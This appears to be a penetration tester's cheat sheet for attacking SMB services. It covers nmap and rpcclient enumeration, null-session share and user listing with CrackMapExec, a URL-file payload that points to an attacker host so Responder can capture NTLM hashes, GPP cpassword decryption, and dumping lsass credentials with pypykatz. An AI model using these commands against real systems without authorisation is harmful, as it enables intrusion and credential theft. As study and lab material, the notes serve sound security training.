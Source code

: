 # Server Message Block

## Footprinting The Service

### Nmap

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### RPCclient

{% code overflow="wrap" %}
```
rpcclient -U "" 10.129.14.128
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

| `srvinfo`                 | Server information.                                                |
| ------------------------- | ------------------------------------------------------------------ |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |

## Search For Known SMB Version Vulnerabilities

## Check For Shares Using Null Sessions

```
smbclient -N -L //$ip/
```

```
cme smb $ip --shares -u "guest" -p ""
```

## URL File attacks

_Test for URL File attacks by creating a file called "@somename.url" with the following contents, upload, spin up smbserver to capture hash_

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\EnterAttackerip\%USERNAME%.icon
IconIndex=1
```

_Run Responder to capture hashes_

```
/opt/Responder-3.1.3.0/Responder.py -I tun0
```

## Read / Upload access

_Attempt to download and view share contents using valid credential / anonymous login / null session_

```
smbmap -u guest -p "" -H $ip -A '.*' -R
```

## Cpassword discovery

_Search "Groups.xml" for cpassword decryption_

```
gpp-decrypt cpassword
```

## lsass.zip lsass.dmp

_search lsass.zip or lsass.dmp to use to dump credentials / keys / tickets_

```
pypykatz lsa minidump "lsass.zip"
```

## Alternate Data Streams (ADS)

_test for alternate data streams after discovering 0 byte files_

```
allinfo filename
```

## Check Password Policy

```
cme smb $ip --pass-pol -u guest -p ""
```

## User Discovery

_Check For users using valid credential / anonymous login / null session_

```
cme smb $ip --users -u guest -p ""
```

```
cme smb $ip --rid-brute -u guest -p ""
```

## Group discovery

_check for groups using valid credential / anonymous login / null session_

```
cme smb $ip --groups -u guest -p ""
```

## Smbclient

_Interactively access the smb shares using smbclient_

```
smbclient //$ip/someshare -N
```

```
smbclient //$ip/someshare -U 'guest' -N
```

```
smbclient //$ip/someshare -U 'validuser' -p 'validpass'
```



## Dangerous Settings

| `browseable = yes`          | Allow listing available shares in the current share?                |
| --------------------------- | ------------------------------------------------------------------- |
| `read only = no`            | Forbid the creation and modification of files?                      |
| `writable = yes`            | Allow users to create and modify files?                             |
| `guest ok = yes`            | Allow connecting to the service without using a password?           |
| `enable privileges = yes`   | Honor privileges assigned to specific SID?                          |
| `create mask = 0777`        | What permissions must be assigned to the newly created files?       |
| `directory mask = 0777`     | What permissions must be assigned to the newly created directories? |
| `logon script = script.sh`  | What script needs to be executed on the user's login?               |
| `magic script = script.sh`  | Which script should be executed when the script gets closed?        |
| `magic output = script.out` | Where the output of the magic script needs to be stored?            |

